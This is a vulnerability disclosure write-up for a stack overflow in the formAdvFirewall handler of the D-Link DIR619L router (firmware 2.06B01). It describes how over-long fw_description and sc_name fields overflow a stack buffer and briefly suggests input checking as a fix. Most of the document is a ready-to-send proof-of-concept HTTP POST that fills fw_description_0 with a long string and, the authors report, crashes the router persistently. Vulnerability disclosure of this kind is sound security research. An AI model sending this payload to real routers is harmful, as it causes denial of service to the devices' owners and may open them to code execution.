

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formAdvFirewall` function, `sc_name_%d、fw_description_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `sc_name_%d、fw_description_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `sc_name_%d、fw_description_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `fw_description_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formAdvFirewall HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 8841
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Firewall.asp
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431078016&anti_spoof=true&spi_enabled=true&spi_enabled_select=&dmz_enabled=0&alg_rtsp=true&fw_description_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&sinf_0=0&s_s_ip_0=&s_e_ip_0=&pro_0=2&sc_name_0=Always&act_0=1&dinf_0=0&d_s_ip_0=&d_e_ip_0=&d_s_port_0=&d_e_port_0=&fw_description_1=&sinf_1=0&s_s_ip_1=&s_e_ip_1=&pro_1=2&sc_name_1=Always&act_1=1&dinf_1=0&d_s_ip_1=&d_e_ip_1=&d_s_port_1=&d_e_port_1=&fw_description_2=&sinf_2=0&s_s_ip_2=&s_e_ip_2=&pro_2=2&sc_name_2=Always&act_2=1&dinf_2=0&d_s_ip_2=&d_e_ip_2=&d_s_port_2=&d_e_port_2=&fw_description_3=&sinf_3=0&s_s_ip_3=&s_e_ip_3=&pro_3=2&sc_name_3=Always&act_3=1&dinf_3=0&d_s_ip_3=&d_e_ip_3=&d_s_port_3=&d_e_port_3=&fw_description_4=&sinf_4=0&s_s_ip_4=&s_e_ip_4=&pro_4=2&sc_name_4=Always&act_4=1&dinf_4=0&d_s_ip_4=&d_e_ip_4=&d_s_port_4=&d_e_port_4=&fw_description_5=&sinf_5=0&s_s_ip_5=&s_e_ip_5=&pro_5=2&sc_name_5=Always&act_5=1&dinf_5=0&d_s_ip_5=&d_e_ip_5=&d_s_port_5=&d_e_port_5=&fw_description_6=&sinf_6=0&s_s_ip_6=&s_e_ip_6=&pro_6=2&sc_name_6=Always&act_6=1&dinf_6=0&d_s_ip_6=&d_e_ip_6=&d_s_port_6=&d_e_port_6=&fw_description_7=&sinf_7=0&s_s_ip_7=&s_e_ip_7=&pro_7=2&sc_name_7=Always&act_7=1&dinf_7=0&d_s_ip_7=&d_e_ip_7=&d_s_port_7=&d_e_port_7=&fw_description_8=&sinf_8=0&s_s_ip_8=&s_e_ip_8=&pro_8=2&sc_name_8=Always&act_8=1&dinf_8=0&d_s_ip_8=&d_e_ip_8=&d_s_port_8=&d_e_port_8=&fw_description_9=&sinf_9=0&s_s_ip_9=&s_e_ip_9=&pro_9=2&sc_name_9=Always&act_9=1&dinf_9=0&d_s_ip_9=&d_e_ip_9=&d_s_port_9=&d_e_port_9=&fw_description_10=&sinf_10=0&s_s_ip_10=&s_e_ip_10=&pro_10=2&sc_name_10=Always&act_10=1&dinf_10=0&d_s_ip_10=&d_e_ip_10=&d_s_port_10=&d_e_port_10=&fw_description_11=&sinf_11=0&s_s_ip_11=&s_e_ip_11=&pro_11=2&sc_name_11=Always&act_11=1&dinf_11=0&d_s_ip_11=&d_e_ip_11=&d_s_port_11=&d_e_port_11=&fw_description_12=&sinf_12=0&s_s_ip_12=&s_e_ip_12=&pro_12=2&sc_name_12=Always&act_12=1&dinf_12=0&d_s_ip_12=&d_e_ip_12=&d_s_port_12=&d_e_port_12=&fw_description_13=&sinf_13=0&s_s_ip_13=&s_e_ip_13=&pro_13=2&sc_name_13=Always&act_13=1&dinf_13=0&d_s_ip_13=&d_e_ip_13=&d_s_port_13=&d_e_port_13=&fw_description_14=&sinf_14=0&s_s_ip_14=&s_e_ip_14=&pro_14=2&sc_name_14=Always&act_14=1&dinf_14=0&d_s_ip_14=&d_e_ip_14=&d_s_port_14=&d_e_port_14=&fw_description_15=&sinf_15=0&s_s_ip_15=&s_e_ip_15=&pro_15=2&sc_name_15=Always&act_15=1&dinf_15=0&d_s_ip_15=&d_e_ip_15=&d_s_port_15=&d_e_port_15=&fw_description_16=&sinf_16=0&s_s_ip_16=&s_e_ip_16=&pro_16=2&sc_name_16=Always&act_16=1&dinf_16=0&d_s_ip_16=&d_e_ip_16=&d_s_port_16=&d_e_port_16=&fw_description_17=&sinf_17=0&s_s_ip_17=&s_e_ip_17=&pro_17=2&sc_name_17=Always&act_17=1&dinf_17=0&d_s_ip_17=&d_e_ip_17=&d_s_port_17=&d_e_port_17=&fw_description_18=&sinf_18=0&s_s_ip_18=&s_e_ip_18=&pro_18=2&sc_name_18=Always&act_18=1&dinf_18=0&d_s_ip_18=&d_e_ip_18=&d_s_port_18=&d_e_port_18=&fw_description_19=&sinf_19=0&s_s_ip_19=&s_e_ip_19=&pro_19=2&sc_name_19=Always&act_19=1&dinf_19=0&d_s_ip_19=&d_e_ip_19=&d_s_port_19=&d_e_port_19=&fw_description_20=&sinf_20=0&s_s_ip_20=&s_e_ip_20=&pro_20=2&sc_name_20=Always&act_20=1&dinf_20=0&d_s_ip_20=&d_e_ip_20=&d_s_port_20=&d_e_port_20=&fw_description_21=&sinf_21=0&s_s_ip_21=&s_e_ip_21=&pro_21=2&sc_name_21=Always&act_21=1&dinf_21=0&d_s_ip_21=&d_e_ip_21=&d_s_port_21=&d_e_port_21=&fw_description_22=&sinf_22=0&s_s_ip_22=&s_e_ip_22=&pro_22=2&sc_name_22=Always&act_22=1&dinf_22=0&d_s_ip_22=&d_e_ip_22=&d_s_port_22=&d_e_port_22=&fw_description_23=&sinf_23=0&s_s_ip_23=&s_e_ip_23=&pro_23=2&sc_name_23=Always&act_23=1&dinf_23=0&d_s_ip_23=&d_e_ip_23=&d_s_port_23=&d_e_port_23=&fw_description_24=&sinf_24=0&s_s_ip_24=&s_e_ip_24=&pro_24=2&sc_name_24=Always&act_24=1&dinf_24=0&d_s_ip_24=&d_e_ip_24=&d_s_port_24=&d_e_port_24=&fw_description_25=&sinf_25=0&s_s_ip_25=&s_e_ip_25=&pro_25=2&sc_name_25=Always&act_25=1&dinf_25=0&d_s_ip_25=&d_e_ip_25=&d_s_port_25=&d_e_port_25=&fw_description_26=&sinf_26=0&s_s_ip_26=&s_e_ip_26=&pro_26=2&sc_name_26=Always&act_26=1&dinf_26=0&d_s_ip_26=&d_e_ip_26=&d_s_port_26=&d_e_port_26=&fw_description_27=&sinf_27=0&s_s_ip_27=&s_e_ip_27=&pro_27=2&sc_name_27=Always&act_27=1&dinf_27=0&d_s_ip_27=&d_e_ip_27=&d_s_port_27=&d_e_port_27=&fw_description_28=&sinf_28=0&s_s_ip_28=&s_e_ip_28=&pro_28=2&sc_name_28=Always&act_28=1&dinf_28=0&d_s_ip_28=&d_e_ip_28=&d_s_port_28=&d_e_port_28=&fw_description_29=&sinf_29=0&s_s_ip_29=&s_e_ip_29=&pro_29=2&sc_name_29=Always&act_29=1&dinf_29=0&d_s_ip_29=&d_e_ip_29=&d_s_port_29=&d_e_port_29=&fw_description_30=&sinf_30=0&s_s_ip_30=&s_e_ip_30=&pro_30=2&sc_name_30=Always&act_30=1&dinf_30=0&d_s_ip_30=&d_e_ip_30=&d_s_port_30=&d_e_port_30=&fw_description_31=&sinf_31=0&s_s_ip_31=&s_e_ip_31=&pro_31=2&sc_name_31=Always&act_31=1&dinf_31=0&d_s_ip_31=&d_e_ip_31=&d_s_port_31=&d_e_port_31=&fw_description_32=&sinf_32=0&s_s_ip_32=&s_e_ip_32=&pro_32=2&sc_name_32=Always&act_32=1&dinf_32=0&d_s_ip_32=&d_e_ip_32=&d_s_port_32=&d_e_port_32=&fw_description_33=&sinf_33=0&s_s_ip_33=&s_e_ip_33=&pro_33=2&sc_name_33=Always&act_33=1&dinf_33=0&d_s_ip_33=&d_e_ip_33=&d_s_port_33=&d_e_port_33=&fw_description_34=&sinf_34=0&s_s_ip_34=&s_e_ip_34=&pro_34=2&sc_name_34=Always&act_34=1&dinf_34=0&d_s_ip_34=&d_e_ip_34=&d_s_port_34=&d_e_port_34=&fw_description_35=&sinf_35=0&s_s_ip_35=&s_e_ip_35=&pro_35=2&sc_name_35=Always&act_35=1&dinf_35=0&d_s_ip_35=&d_e_ip_35=&d_s_port_35=&d_e_port_35=&fw_description_36=&sinf_36=0&s_s_ip_36=&s_e_ip_36=&pro_36=2&sc_name_36=Always&act_36=1&dinf_36=0&d_s_ip_36=&d_e_ip_36=&d_s_port_36=&d_e_port_36=&fw_description_37=&sinf_37=0&s_s_ip_37=&s_e_ip_37=&pro_37=2&sc_name_37=Always&act_37=1&dinf_37=0&d_s_ip_37=&d_e_ip_37=&d_s_port_37=&d_e_port_37=&fw_description_38=&sinf_38=0&s_s_ip_38=&s_e_ip_38=&pro_38=2&sc_name_38=Always&act_38=1&dinf_38=0&d_s_ip_38=&d_e_ip_38=&d_s_port_38=&d_e_port_38=&fw_description_39=&sinf_39=0&s_s_ip_39=&s_e_ip_39=&pro_39=2&sc_name_39=Always&act_39=1&dinf_39=0&d_s_ip_39=&d_e_ip_39=&d_s_port_39=&d_e_port_39=&fw_description_40=&sinf_40=0&s_s_ip_40=&s_e_ip_40=&pro_40=2&sc_name_40=Always&act_40=1&dinf_40=0&d_s_ip_40=&d_e_ip_40=&d_s_port_40=&d_e_port_40=&fw_description_41=&sinf_41=0&s_s_ip_41=&s_e_ip_41=&pro_41=2&sc_name_41=Always&act_41=1&dinf_41=0&d_s_ip_41=&d_e_ip_41=&d_s_port_41=&d_e_port_41=&fw_description_42=&sinf_42=0&s_s_ip_42=&s_e_ip_42=&pro_42=2&sc_name_42=Always&act_42=1&dinf_42=0&d_s_ip_42=&d_e_ip_42=&d_s_port_42=&d_e_port_42=&fw_description_43=&sinf_43=0&s_s_ip_43=&s_e_ip_43=&pro_43=2&sc_name_43=Always&act_43=1&dinf_43=0&d_s_ip_43=&d_e_ip_43=&d_s_port_43=&d_e_port_43=&fw_description_44=&sinf_44=0&s_s_ip_44=&s_e_ip_44=&pro_44=2&sc_name_44=Always&act_44=1&dinf_44=0&d_s_ip_44=&d_e_ip_44=&d_s_port_44=&d_e_port_44=&fw_description_45=&sinf_45=0&s_s_ip_45=&s_e_ip_45=&pro_45=2&sc_name_45=Always&act_45=1&dinf_45=0&d_s_ip_45=&d_e_ip_45=&d_s_port_45=&d_e_port_45=&fw_description_46=&sinf_46=0&s_s_ip_46=&s_e_ip_46=&pro_46=2&sc_name_46=Always&act_46=1&dinf_46=0&d_s_ip_46=&d_e_ip_46=&d_s_port_46=&d_e_port_46=&fw_description_47=&sinf_47=0&s_s_ip_47=&s_e_ip_47=&pro_47=2&sc_name_47=Always&act_47=1&dinf_47=0&d_s_ip_47=&d_e_ip_47=&d_s_port_47=&d_e_port_47=&fw_description_48=&sinf_48=0&s_s_ip_48=&s_e_ip_48=&pro_48=2&sc_name_48=Always&act_48=1&dinf_48=0&d_s_ip_48=&d_e_ip_48=&d_s_port_48=&d_e_port_48=&fw_description_49=&sinf_49=0&s_s_ip_49=&s_e_ip_49=&pro_49=2&sc_name_49=Always&act_49=1&dinf_49=0&d_s_ip_49=&d_e_ip_49=&d_s_port_49=&d_e_port_49=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
